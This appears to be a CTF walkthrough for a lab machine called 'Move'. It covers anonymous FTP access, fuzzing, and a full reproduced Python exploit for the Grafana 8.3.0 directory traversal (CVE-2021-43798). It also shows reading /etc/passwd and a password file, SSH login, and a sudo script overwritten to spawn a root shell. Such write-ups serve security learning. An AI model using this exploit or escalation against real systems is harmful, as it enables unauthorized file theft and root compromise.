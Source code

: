 ```yaml
---
sticker: emoji//1f6b6
---
```


# MOVE

## ENUMERATION

### OPEN PORTS

![](gitbook/cybersecurity/images/Pasted%20image%2020241025014342.png)

```ad-note
OPEN PORTS

21: `FTP (Anonymous login enabled)`
22: `SSH`
80: `HTTP`
3000: `HTTP`

```

First, we need to log into ftp taking advantage of that anonymous login that's enabled:

![](gitbook/cybersecurity/images/Pasted%20image%2020241025014539.png) We have a directory called `mantenimiento`, inside of this directory, we can find the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020241025014619.png)

A `database.kdbx` file is found inside of it, let's download it to our host machine and inspect it:

![](gitbook/cybersecurity/images/Pasted%20image%2020241025014823.png)

If we try to use `keepass2` on the file, it is protected by a password, let's start with our websites enumeration to get that password.

We have two websites, let's try to enumerate them further using fuzzing and other techniques

### FUZZING

#### PORT 80 WEBSITE

![](gitbook/cybersecurity/images/Pasted%20image%2020241025014929.png)

Found a `/maintenance.html` directory that may be useful, let's visit it:

![](gitbook/cybersecurity/images/Pasted%20image%2020241025015023.png)

So, seems like the password is in the `/tmp` directory, seems like we need to perform a path traversal in some sort of way to get that, let's enumerate the other website

#### PORT 3000 WEBSITE

![](gitbook/cybersecurity/images/Pasted%20image%2020241025013600.png) A lot came from it, so, fuzzing seems pretty useless here, let's visit the website:

![](gitbook/cybersecurity/images/Pasted%20image%2020241025013631.png)

Default page is a login page, something interest I found was this:

![](gitbook/cybersecurity/images/Pasted%20image%2020241025015156.png)

Seems like it is running a `grafana` om the `v8.3.0`, let's search for some exploit in this version

![](gitbook/cybersecurity/images/Pasted%20image%2020241025015326.png)

Perfect, found exactly what I needed, a \[\[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/PATH TRAVERSAL|path traversal]] vulnerability that allow us to read that `/tmp/pass.txt` file:

```ad-important
exploit: [exploit](https://www.exploit-db.com/exploits/50581)
```

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vendor Homepage: https://grafana.com/
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Version: V8.0.0-beta1 through V8.3.0
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798
# Tested on: Debian 10
# References: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p47p

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
    "grafana-azure-monitor-datasource",
    "graph",
    "heatmap",
    "histogram",
    "influxdb",
    "jaeger",
    "logs",
    "loki",
    "mssql",
    "mysql",
    "news",
    "nodeGraph",
    "opentsdb",
    "piechart",
    "pluginlist",
    "postgres",
    "prometheus",
    "stackdriver",
    "stat",
    "state-timeline",
    "status-histor",
    "table",
    "table-old",
    "tempo",
    "testdata",
    "text",
    "timeseries",
    "welcome",
    "zipkin"
]

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0)
            
```

## EXPLOITATION

### LAUNCHING THE EXPLOIT

So, with the exploit in our hands, let's start with the next stage, let's launch the attack and try to read `/etc/passwd` to check if it works:

![](gitbook/cybersecurity/images/Pasted%20image%2020241025015835.png) And it works correctly, let's read our `/tmp/pass.txt` file!

![](gitbook/cybersecurity/images/Pasted%20image%2020241025015908.png)

```ad-hint
`/tmp/pass.txt`: `t9sH76gpQ82UFeZ3GXZS`
```

Nice, we got what we needed, let's log in ssh using that password and the user `freddy` we previously read in that `/etc/passwd` file:

![](gitbook/cybersecurity/images/Pasted%20image%2020241025020149.png)

Nice, we got access, let's start with the privilege escalation.

## PRIVILEGE ESCALATION

### SUDO -L

![](gitbook/cybersecurity/images/Pasted%20image%2020241025020240.png)

Seems like we have a `/opt/maintenance.py` file we can exploit in order to get root access, let's check at the code:

![](gitbook/cybersecurity/images/Pasted%20image%2020241025020359.png)

Something simple, just a print statement on it, let's check if we can write in it:

![](gitbook/cybersecurity/images/Pasted%20image%2020241025020446.png)

And we can indeed write in it, let's escalate our privileges, for this, I used this code:

```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```

This will pop a new shell with root privileges:

![](gitbook/cybersecurity/images/Pasted%20image%2020241025020740.png)

And just like that, the CTF is done!
